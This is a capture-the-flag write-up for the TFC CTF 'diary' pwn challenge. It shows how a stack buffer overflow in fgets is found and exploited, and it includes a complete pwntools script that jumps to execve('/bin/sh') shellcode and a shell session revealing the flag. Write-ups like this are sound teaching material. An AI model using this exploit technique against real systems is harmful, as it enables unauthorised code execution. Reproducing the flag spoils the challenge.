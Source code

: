 # DIARY

## Description

> How was your day?
>
> Author: tomadimitrie
>
> [diary](./diary)

Tags: _web|warmup_

## Solution

This challenge comes with the vulnerable binary only, the first thing to do is check the binary's security posture using `chekcsec` to give us an idea of what could be the way in vector.

```shell
$ checksec diary
[*] '/home/jovenoven/Downloads/TFC_CTF/pwn/diary/diary'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments

```

We can see that its security is terrible, almost every security defense is disabled making things easier for us.

I will use `ghidra` to see what the program does exactly inside. There are only two functions: _main()_ and _vuln()_.

This is the _main()_ function, which in summary just calls the _vuln()_ function.

```c
undefined8 main(void)

{
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  vuln();
  return 0;
}
```

and this is the `vuln()` function:

```c
void vuln(void)

{
  undefined8 local_108;
  undefined8 local_100;
  undefined8 local_f8;
  undefined8 local_f0;
  undefined8 local_e8;
  undefined8 local_e0;
  undefined8 local_d8;
  undefined8 local_d0;
  undefined8 local_c8;
  undefined8 local_c0;
  undefined8 local_b8;
  undefined8 local_b0;
  undefined8 local_a8;
  undefined8 local_a0;
  undefined8 local_98;
  undefined8 local_90;
  undefined8 local_88;
  undefined8 local_80;
  undefined8 local_78;
  undefined8 local_70;
  undefined8 local_68;
  undefined8 local_60;
  undefined8 local_58;
  undefined8 local_50;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  undefined8 local_18;
  undefined8 local_10;

  puts("Dear diary...");
  local_108 = 0;
  local_100 = 0;
  local_f8 = 0;
  local_f0 = 0;
  local_e8 = 0;
  local_e0 = 0;
  local_d8 = 0;
  local_d0 = 0;
  local_c8 = 0;
  local_c0 = 0;
  local_b8 = 0;
  local_b0 = 0;
  local_a8 = 0;
  local_a0 = 0;
  local_98 = 0;
  local_90 = 0;
  local_88 = 0;
  local_80 = 0;
  local_78 = 0;
  local_70 = 0;
  local_68 = 0;
  local_60 = 0;
  local_58 = 0;
  local_50 = 0;
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  local_10 = 0;
  fgets((char *)&local_108,0x400,stdin);
  return;
}
```

It defines a lot of local variables and calls the function `fgets()` with a boundary in hexadecimal of `0x400 bytes` or `1024 bytes` in decimal, which could still be vulnerable to a `buffer overflow` attack. We can check it by executing the program and filling it with a large input. (don't forget to give the binary execute privileges using `chmod +x diary`)

```
$ ./diary
Dear diary...
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault
```

The program throws a `Segmentation fault`, which means that indeed it is vulnerable to buffer overflow attacks.

So, the process to exploit this vulnerability is the following:

1. Find the offset between the start of the user input and the return address in the stack.
2. Fill with nops the stack until it reaches the return address
3. Overwrite the return address with a `jump rsp` gadget which will redirect the flow execution to the shellcode we write after the gadget
4. A small padding of no-ops to give more flexibility to the payload
5. The shellcode that will give us a shell by calling `execve("/bin/sh")`

To find the offset, I debugged the program using `GDB`,

```
$ gdb diary
```

then I used `cyclic` which is available with `pwndbg` to create a 300 character payload to make it easy to find the offset.

```
pwndbg> cyclic 300
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa
```

run the binary, it shoud crash trying to go to the specific memory address in `ret` (return address) `0x6261616161616169`. Use `cyclic` again to get the exact offset where we will start overwriting the return address.

```
pwndbg> cyclic -l 0x6261616161616169
Finding cyclic pattern of 8 bytes: b'iaaaaaab' (hex: 0x6961616161616162)
Found at offset 264
```

You can do the next steps manually using commands like `ropper` to find gadgets or `msfvenom` to create shellcode, but I decided to automate the process using `pwntools`, a powerful library in python for binary exploitation. Please note that the exploit is encapsulated inside "equal" characters, the rest of the code is more like a template. Don't forget to change the remote connection parameters with the actual values of your container.

```python
#!/usr/bin/python3
from pwn import *

# Set up the target binary by specifying the ELF file
elf = context.binary = ELF("diary")

# Defining the GDB script that will be used when running the binary
gs = '''
continue
'''
# Launch the binary with GDB, without GDB or REMOTE based on the command-line arguments
def start():
    if args.REMOTE:
        return remote("challs.tfcctf.com", 32439)
    else:
        if args.GDB:
            return gdb.debug(elf.path, gdbscript=gs)
        else:
            return process(elf.path)

io = start()

#=======================================================================================

# Find jmp rsp gadget
jmp_rsp = asm('jmp rsp')
jmp_rsp = next(elf.search(jmp_rsp))

# Prepare shellcode to drop a shell
shellcode = asm("shellcode:" + shellcraft.execve("/bin/sh"))

# Overwrite the return address with the jmp_rsp gadget's memory address to execute our shellcode
payload = asm("nop")*264 + p64(jmp_rsp) + asm("nop")*16 + shellcode

# Send the payload
io.sendline(payload)

#=======================================================================================

# Interact with the process
io.interactive()
```

Use again `chmod` to provide the script with execution privileges:

```
$ chmod +x solve.py
```

Finally, execute the script with the `REMOTE` option and you should get a shell! (be patient, it would take a minute since it is crafting all the payload)

```shell
$ ./solve.py REMOTE
[*] '/home/jovenoven/Downloads/TFC_CTF/pwn/diary/diary'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to challs.tfcctf.com on port 30389: Done
[*] Switching to interactive mode
Dear diary...
$ whoami
ctf
$ ls
diary
flag.txt
$ cat flag.txt
TFCCTF{94fa3e5538d57f71937a85076e96fbc5c00f8fddbbcbb8b4b6db1df9e599d1d6}
$ exit
[*] Got EOF while reading in interactive
```

I also recommend watching [this](https://www.youtube.com/watch?v=wa3sMSdLyHw&list=PLHUKi1UlEgOIc07Rfk2Jgb5fZbxDPec94&pp=iAQB) series of videos if you are new to pwn challenges, I think he explains really well and also provides more resources to better understand the theory, watch the fifth video [Injecting shellcode](https://youtu.be/4zut2Mjgh5M?list=PLHUKi1UlEgOIc07Rfk2Jgb5fZbxDPec94) of the series since he explains further how to solve these specific kind of challenges.

Flag `TFCCTF{94fa3e5538d57f71937a85076e96fbc5c00f8fddbbcbb8b4b6db1df9e599d1d6}`
